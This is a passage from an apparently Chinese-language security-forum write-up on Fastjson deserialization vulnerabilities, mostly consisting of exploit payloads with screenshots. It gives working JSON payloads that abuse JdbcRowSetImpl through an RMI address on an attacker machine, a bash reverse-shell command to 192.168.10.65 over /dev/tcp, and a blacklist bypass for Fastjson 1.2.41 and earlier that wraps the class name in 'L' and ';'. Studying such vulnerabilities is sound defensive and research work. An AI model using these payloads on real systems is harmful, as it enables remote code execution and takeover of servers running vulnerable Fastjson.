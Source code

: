 ![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b2d834d78c7ae2eaabb961f8ac4c9e55cffeb639.png)

##### 发送payload,别忘了改Content-Type: application/json，可以看见成功写入，反弹shell的手段和上面1.2.24的一样：

```php
{
 "a":{
 "@type":"java.lang.Class",
 "val":"com.sun.rowset.JdbcRowSetImpl"
 },
 "b":{
 "@type":"com.sun.rowset.JdbcRowSetImpl",
 "dataSourceName":"rmi://192.168.10.65:9999/zcc",
 "autoCommit":true
 }
}
```

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-381e229a08718ea27fef86fbe34475b3af908e6d.png)

![image-20210805145437569](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-893be8b6263068dbf46f7a7636d96a2701309f5e.png)

![image-20210805145813087](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-98c29219926aedbc02e619fcb8a4127cc6d82bfe.png)

##### 反弹shell；

```php
"/bin/bash", "-c", "bash -i >& /dev/tcp/192.168.10.65/8899 0>&1"
```

![image-20210805151609442](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-bd170ef95b4202cb912e8f8e3963194179b5dab4.png)

![image-20210805151645242](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9e18beebca37d02d1df0e41fa58e4c6c47ffbd76.png)

### 2.3 fastjson&lt;=1.2.41漏洞详情

##### 第一个Fastjson反序列化漏洞爆出后，阿里在1.2.25版本设置了autoTypeSupport属性默认为false，并且增加了checkAutoType()函数，通过黑白名单的方式来防御Fastjson反序列化漏洞，因此后面发现的Fastjson反序列化漏洞都是针对黑名单绕过来实现攻击利用的目的的。com.sun.rowset.jdbcRowSetlmpl在1.2.25版本被加入了黑名单，fastjson有个判断条件判断类名是否以"L"开头、以";"结尾，是的话就提取出其中的类名在加载进来，因此在原类名头部加L，尾部加;即可绕过黑名单的同时加载类。

##### exp：

```php
{           
    "@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
    "dataSourceName":"rmi://x.x.x.x:9999/rce_1_2_24_exploit",
    "autoCommit":true
}
```
